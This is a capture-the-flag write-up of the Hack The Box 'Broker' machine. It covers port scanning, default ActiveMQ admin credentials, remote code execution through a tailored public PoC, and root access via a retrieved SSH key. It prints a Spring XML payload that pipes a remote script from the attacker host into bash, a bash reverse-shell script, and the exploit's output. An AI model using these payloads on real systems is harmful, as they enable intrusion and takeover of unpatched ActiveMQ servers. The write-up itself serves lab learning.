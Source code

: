 # Broker Write-Up - HTB

## Recon

Starting off with an nmap scan:

```
sudo nmap -sS -Pn -n -p- 10.10.11.243 -oN all_syn.txt
```

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
1883/tcp  open  mqtt
5672/tcp  open  amqp
8161/tcp  open  patrol-snmp
44327/tcp open  unknown
61613/tcp open  unknown
61614/tcp open  unknown
61616/tcp open  unknown
```

Let's enumerate the services further:

{% code overflow="wrap" %}
```
PORTS=$(grep "open" all_syn.txt | awk -F '/' '{print $1}' | tr '\n' ',' | sed 's/,$//'); sudo nmap -sVC -p $PORTS -Pn -n 10.10.11.243
```
{% endcode %}

```
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp    open  http       nginx 1.18.0 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
1883/tcp  open  mqtt
|_mqtt-subscribe: Failed to receive control packet from server.
5672/tcp  open  amqp?
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     AMQP
|     AMQP
|     amqp:decode-error
|_    7Connection from client using unsupported AMQP attempted
8161/tcp  open  http       Jetty 9.4.39.v20210325
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-title: Error 401 Unauthorized
|_http-server-header: Jetty(9.4.39.v20210325)
44327/tcp open  tcpwrapped
61613/tcp open  stomp      Apache ActiveMQ
| fingerprint-strings: 
|   HELP4STOMP: 
|     ERROR
|     content-type:text/plain
|     message:Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolException: Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolConverter.onStompCommand(ProtocolConverter.java:258)
|     org.apache.activemq.transport.stomp.StompTransportFilter.onCommand(StompTransportFilter.java:85)
|     org.apache.activemq.transport.TransportSupport.doConsume(TransportSupport.java:83)
|     org.apache.activemq.transport.tcp.TcpTransport.doRun(TcpTransport.java:233)
|     org.apache.activemq.transport.tcp.TcpTransport.run(TcpTransport.java:215)
|_    java.lang.Thread.run(Thread.java:750)
61614/tcp open  http       Jetty 9.4.39.v20210325
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Jetty(9.4.39.v20210325)
|_http-title: Site doesn't have a title.
61616/tcp open  apachemq   ActiveMQ OpenWire transport
| fingerprint-strings: 
|   NULL: 
|     ActiveMQ
|     TcpNoDelayEnabled
|     SizePrefixDisabled
|     CacheSize
|     ProviderName 
|     ActiveMQ
|     StackTraceEnabled
|     PlatformDetails 
|     Java
|     CacheEnabled
|     TightEncodingEnabled
|     MaxFrameSize
|     MaxInactivityDuration
|     MaxInactivityDurationInitalDelay
|     ProviderVersion 
|_    5.15.15
```

Navigated to the webapp:

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Turns out admin:admin works!

Found this CVE: [https://github.com/X1r0z/ActiveMQ-RCE](https://github.com/X1r0z/ActiveMQ-RCE)

Did some tailoring to the poc.xml after trial 'n error:

```
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg >
        <list>
            <value>sh</value>
            <value>-c</value>
            <value>curl http://10.10.16.9:8080/shell.sh | bash</value>
        </list>
        </constructor-arg>
    </bean>
</beans>
```

And shell.sh:

```
#!/bin/bash
bash -i >& /dev/tcp/10.10.16.9/9999 0>&1
```

Turn on the webservers and launch the poc!

```
/ActiveMQ-RCE -i 10.10.11.243 -u http://10.10.16.9:9000/poc.xml
     _        _   _           __  __  ___        ____   ____ _____ 
    / \   ___| |_(_)_   _____|  \/  |/ _ \      |  _ \ / ___| ____|
   / _ \ / __| __| \ \ / / _ \ |\/| | | | |_____| |_) | |   |  _|  
  / ___ \ (__| |_| |\ V /  __/ |  | | |_| |_____|  _ <| |___| |___ 
 /_/   \_\___|\__|_| \_/ \___|_|  |_|\__\_\     |_| \_\\____|_____|

[*] Target: 10.10.11.243:61616
[*] XML URL: http://10.10.16.9:9000/poc.xml

[*] Sending packet: 000000711f000000000000000000010100426f72672e737072696e676672616d65776f726b2e636f6e746578742e737570706f72742e436c61737350617468586d6c4170706c69636174696f6e436f6e7465787401001e687474703a2f2f31302e31302e31362e393a393030302f706f632e786d6c
```

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

## PrivEsc

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

Found this: [https://gist.github.com/DylanGrl/ab497e2f01c7d672a80ab9561a903406](https://gist.github.com/DylanGrl/ab497e2f01c7d672a80ab9561a903406)

Make sure that your pwd is: /home/activemq - when running the poc.

Copy the key to attack box and:

```
chmod 600 id
ssh -i id root@broker.htb 
```

<figure><img src="../.gitbook/assets/image (200).png" alt=""><figcaption></figcaption></figure>
